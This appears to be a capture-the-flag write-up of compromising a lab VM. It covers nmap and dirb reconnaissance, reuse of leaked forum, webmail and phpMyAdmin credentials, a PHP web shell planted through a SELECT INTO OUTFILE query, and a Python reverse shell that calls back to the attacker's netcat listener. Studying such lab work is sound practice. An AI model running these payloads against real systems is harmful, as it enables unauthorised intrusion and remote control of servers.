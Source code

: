 # Web

## Setting up:
Find the address range in VirtualBox:  
File -> Host Network Manager -> Get the IPv4 Address Mask ($ADDRESS_RANGE)

Find the IP of our VM:
`nmap -sP $ADDRESS_RANGE` ($IP_ADDR)

Find the exposed ports and services running them:
`nmap $IP_ADDR`
```shell
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
143/tcp open  imap
443/tcp open  https
993/tcp open  imaps
MAC Address: 08:00:27:ED:76:AF (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X
OS CPE: cpe:/o:linux:linux_kernel:3
OS details: Linux 3.2 - 3.10, Linux 3.2 - 3.16
```

Use [dirb](https://www.kali.org/tools/dirb/) to find all existing urls on a given domain.
`dirb http://$IP_ADDR`
```
---- Scanning URL: http://192.168.56.104/ ----
+ http://192.168.56.104/cgi-bin/ (CODE:403|SIZE:290)
==> DIRECTORY: http://192.168.56.104/fonts/
+ http://192.168.56.104/forum (CODE:403|SIZE:287)
+ http://192.168.56.104/index.html (CODE:200|SIZE:1025)
+ http://192.168.56.104/server-status (CODE:403|SIZE:295)
```

The index page isn't very interesting, and we don't have permission to access /server-status so let's check out the forum.
The only interesting post here is "Probleme login ?" where a user named lmezard posted an entire logfile, maybe there is something interesting in it?

![Credentials found on forum post](../images/writeup3/credentials_on_forum_post.png)
`Failed password for invalid user !q\]Ej?*5K5cy*AJ`


We can login as lmezard on the forum with this password (USERNAME=lmezard). Now we can see her e-mail on her personal account page.
Running dirb on the https part of the website also shows that /webmail and /phpmyadmin are available.

We can login on the webmail with her e-mail and password and we see an incoming mail with subject "DB Access", hmmmm...

![Credentials found in e-mail](../images/writeup3/credentials_in_email.png)
`root/Fg-'kKXBj87E:aJ$`

Login on /phpmyadmin with these credentials.
Going to forum_db => mlf2_userdata we can see all the users and their passwords which appear to be hashed.
mlf stands for [My Little Forum](https://mylittleforum.net/) as we can see at the bottom of the forum page.
The website links to the source code and we can find [the hash function](https://github.com/ilosuna/mylittleforum/blob/0b35c866aede75c2d224b13b0e09297794f0c233/includes/functions.inc.php#L1735)

(Haven't cracked the password)

<!-- https://www.hackingarticles.in/shell-uploading-web-server-phpmyadmin/ -->
<!-- https://www.netspi.com/blog/technical/network-penetration-testing/linux-hacking-case-studies-part-3-phpmyadmin/ -->
Creating a backdoor in phpmyadmin:
`SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/forum/templates_c/backdoor.php"`
![Setting up the backdoor](../images/writeup3/phpmyadmin_backdoor.png)
![Seeing the backdoor in working](../images/writeup3/backdoor_in_working.png)


We need to set up a listener in our terminal:
```shell
$ netcat -nvklp 4242
```

This is the command we want to execute:
`python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'` (graciously stolen from [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python))

so just browse to this URL:
https://${IP_ADDRESS}/forum/templates_c/backdoor.php?cmd=${CMD}

Now we have a shell, and can continue exploiting.
